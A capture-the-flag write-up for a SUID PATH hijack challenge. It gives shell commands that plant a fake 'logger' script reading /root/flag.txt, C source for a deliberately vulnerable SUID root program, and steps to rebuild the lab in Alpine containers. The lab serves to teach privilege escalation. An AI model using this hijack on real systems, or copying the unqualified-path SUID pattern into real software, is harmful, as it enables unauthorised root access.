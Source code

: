 # Challenge 10 — SUID PATH Hijack

## Description
Exploit a SUID root program that calls `logger` without a full path. 

# Solution
Follow these steps inside the running container as user `ctfuser`.

1. Read the breadcrumbs to understand the hint about `logger` and `PATH`.
   ```bash
   cat /home/ctfuser/README.txt
   cat /opt/notes/sysadmin_note.txt
   ```

2. Confirm there is a SUID binary.
   ```bash
   ls -l /usr/local/bin/vuln
   # expect: -rwsr-xr-x root root ... /usr/local/bin/vuln
   ```
   The `s` shows it runs with root privileges.

3. Notice that it calls `logger` and likely relies on `PATH`.
   ```bash
   strings /usr/local/bin/vuln | grep -i logger || echo "Proceed even if nothing prints"
   ```

4. Create a fake `logger` that copies the flag to a readable file.
   ```bash
   cat > ~/logger <<'EOF'
   #!/usr/bin/env bash
   set -euo pipefail
   cat /root/flag.txt > /tmp/flag.out
   EOF
   chmod +x ~/logger
   ```

5. Put your home directory first in `PATH` and confirm resolution.
   ```bash
   export PATH="$HOME:$PATH"
   command -v logger     # should print /home/ctfuser/logger
   ```

6. Run the SUID program and read the flag.
   ```bash
   /usr/local/bin/vuln
   cat /tmp/flag.out
   ```

**Logic:** The SUID program executes with root’s effective (and real) UID. It calls `logger` without a full path, so the system searches `PATH`. Because your `~/logger` appears first, it runs your script as root and copies `/root/flag.txt` to `/tmp/flag.out`.

# Recreating this challenge
These steps describe how to rebuild the challenge at a high level (no `build.sh`). Use Alpine to keep the image small and Bash for consistency.

1. Create project structure and files.
   - `flag.txt` containing the secret flag (e.g., `flag{suid_path_hijack_works}`).
   - `README.txt` with a short note mentioning that the tool relies on `logger`.
   - `/opt/notes/sysadmin_note.txt` reminding to hardcode full paths for privileged tools.

2. Write the vulnerable program `vuln.c`. It should set real and effective IDs to root, then call `execvp("logger", ...)` (not `system()`), so it searches `PATH` for `logger`.
   ```c
   #include <unistd.h>
   #include <stdio.h>

   int main(void) {
       if (setgid(0) != 0 || setuid(0) != 0) {
           perror("setuid/setgid");
           return 1;
       }
       char *argv[] = {"logger", "-t", "vuln", "user-ran-vuln", NULL};
       execvp("logger", argv);
       perror("execvp");
       return 127;
   }
   ```

3. Build the binary in a temporary builder stage.
   - Base: `alpine:3.20`
   - Install `build-base`
   - Compile with `gcc -O2 -s -o vuln vuln.c`

4. Create the runtime image.
   - Base: `alpine:3.20`
   - Install `bash` (BusyBox already provides `logger`).
   - Create user `ctfuser` with home `/home/ctfuser`.
   - Copy `/root/flag.txt` and set permissions `600`.
   - Copy breadcrumbs to their paths.
   - Copy `/usr/local/bin/vuln` from builder.
   - Set owner to root and permissions to `4755` to enable SUID.
   - Set default user to `ctfuser`, workdir to `/home/ctfuser`, and keep the container alive with a simple Bash loop.
